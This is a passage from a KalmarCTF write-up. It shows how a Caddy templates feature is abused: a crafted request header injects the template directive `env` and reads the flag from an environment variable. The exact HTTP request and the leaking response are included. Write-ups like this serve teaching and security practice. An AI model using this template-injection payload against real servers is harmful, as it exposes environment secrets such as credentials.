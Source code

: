It worked! So we can have caddy directives but referencing the flag via $ doesn't. Let's see what directives is caddy specifically adding in [their source code for templates](https://github.com/caddyserver/caddy/blob/220cd1c2bcecc07bcf6a0141069538c1b1109907/modules/caddyhttp/templates/templates.go#L40). There it is:

```
// ##### `env`
//
// Gets an environment variable.
//
```

our flag is passed in as an environment variable via the dockerfile:

```Dockerfile
FROM caddy:2.9.1-alpine
COPY Caddyfile /etc/caddy/Caddyfile

ENV FLAG='kalmar{test}'
```

Let's try to include the `env` directive instead of `cat`:

Request:

```
GET /fetch/headers HTTP/2
Host: private.caddy.chal-kalmarc.tf
Caddy-Templates-Include: 1
My-Header: \{\{ env `FLAG` \}\}

```

Response:

```
HTTP/2 200 OK
Alt-Svc: h3=":443"; ma=2592000
Content-Type: text/plain; charset=utf-8
Server: Caddy
Content-Length: 163
Date: Sat, 15 Mar 2025 13:23:47 GMT

{
  "Accept-Encoding": [
    "identity"
  ],
  "Caddy-Templates-Include": [
    "2"
  ],
  "My-Header": [
    "kalmar{4n0th3r_K4lmarCTF_An0Th3R_C4ddy_Ch4ll}"
  ]
}
```

and we got the flag!

> kalmar{4n0th3r_K4lmarCTF_An0Th3R_C4ddy_Ch4ll}
